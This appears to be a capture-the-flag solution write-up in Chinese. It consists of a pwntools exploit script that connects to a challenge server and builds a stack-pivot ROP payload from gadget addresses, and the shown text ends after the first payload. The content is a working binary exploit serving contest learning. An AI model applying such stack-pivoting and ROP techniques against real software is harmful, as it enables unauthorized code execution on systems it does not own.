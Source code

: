 题解：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   作者：@eastXueLian

from pwn import *

# 设置日志等级和架构
context.log_level = "info"
context.arch = "amd64"

# 连接到远程服务
io = remote("202.38.93.141", 31335)

# 辅助函数
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))  # 将数据转换为64位无符号整数
i2b = lambda c: str(c).encode()  # 将整数转换为字节串

# 接收提示并发送令牌
io.recvuntil(b":")
io.sendline(input("请输入你的令牌：").encode())  # 提示用户输入令牌并发送

# 定义发送有效负载的函数
def send_payload(payload):
    # 将有效负载拆分为8字节一组的整数列表
    payload_list = [0 for _ in range(len(payload) // 8 + 1)]#创建一个长度为 len(payload) // 8 + 1 的列表，列表中的每个元素都是 0
    for i in range(0, len(payload), 8):
        payload_list[i // 8] = u64_ex(payload[i:i+8])
    data = b""
    # 将每个整数转换为字节串并用空格分隔
    for i in payload_list:
        data += i2b(i)
        data += b" "
    # 发送数据，末尾添加特殊值0x31337并换行
    io.send(data + i2b(0x31337) + b"\n")
    # 接收直到提示下一轮开始
    io.recvuntil(b"next round has begun.\n")

# 等待初始提示
io.recvuntil(b"stop reading until I receive the correct one.")
# 发送初始有效负载，用于对齐或设置环境
send_payload(b"a")

# 定义一些关键地址和值
try_addr = 0x0000000000401F0E      
# 'banner'函数的try块地址
new_stack = 0x31337000             
# 新的栈地址，用于栈迁移(源代码中提供了一个栈地址区间，这里取了范围之内的一个地址)：覆盖rbp，使得函数返回时，rsp被设置为new_stack，实现栈迁移
pop_rdi_ret = 0x0000000000402F7C   # ROP小工具：pop rdi; ret
pop_rsi_ret = 0x0000000000404669   # ROP小工具：pop rsi; ret
pop_rdx_2_ret = 0x00000000004AF0DB # ROP小工具：pop rdx; pop rbx; ret
pop_rax_ret = 0x0000000000463DA7   # ROP小工具：pop rax; ret
syscall_ret = 0x42EA86             # ROP小工具：syscall; ret

# 构造第一个有效负载，实现栈迁移
payload = flat(                 #flat() 函数：pwntools 库中的一个函数，用于将嵌套的数据结构（如列表、字典）扁平化为字节串，自动处理数据的端序和填充
    {
        0x00: [0x1111, 0x2222, 0x3333, 0x4444, new_stack],  # 覆盖保存的RBP为new_stack
        0x28: [try_addr + 1, 0xDEADBEEF, 0xCAFECAFE, 0x31337],  # 覆盖返回地址等
    }
)
```